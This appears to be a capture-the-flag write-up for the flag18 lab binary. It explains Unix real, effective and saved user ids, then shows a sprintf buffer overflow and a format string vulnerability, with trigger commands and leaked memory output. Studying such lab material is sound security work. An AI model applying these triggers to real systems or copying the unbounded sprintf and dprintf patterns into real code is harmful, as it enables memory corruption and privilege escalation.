 setresXid sets the real, effective and saved user/group id of the calling process. But what are these different 
user identifiers for?

+ effective user id (euid): Is used for access checks (like opening a file). Also used for files created. This represents
	the actual capabilities of the process.
+ real user id (ruid): The users id of the process owner. When there is no setuid/setgid bit set on the process, it's the same
	as the user who invoked the process.
+ saved user id (suid): Variable to keep track of the original user id. Used to lower privileges and remember them for later use.

So the above calls to `setresgid()` set all of this different id's to the same value: the effective user/group id.


#### The hard way - buffer overflow

There is a buffer overflow in the function `setuser()`. There the a buffer with length 128 is formatted
with unbound user input data:

	:::C
	char msg[128];

	sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);

To trigger the overrun, call it like this:

	:::bash
	python -c 'print "setuser " + 150 * "A"' | ./flag18 -vvvvv -d /tmp/dbg


#### Format string vulnearabilities

Then there is the function:

	:::C
	void notsupported(char *what)
	{
	  char *buffer = NULL;
	  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
	  dprintf(what);
	  free(buffer);
	}

which can be used to exploit format string vulnearabilities. An example might be to enter the following
after having called flag18 with `./flag18 -vvvvv -d /dev/tty`:

	:::bash
	site exec %s%s%s%s%s%s%s%s%s
	got [site exec %s%s%s%s%s%s%s%s%s] as input
	�����F<~����F<����F<��Āu'�VH�B�����Bu��,��O�O�O�O�O�O�O�P�got [%s] as input
	,���--> [%s%s%s%s%s%s%s%s%s] is unsupported at this current time.
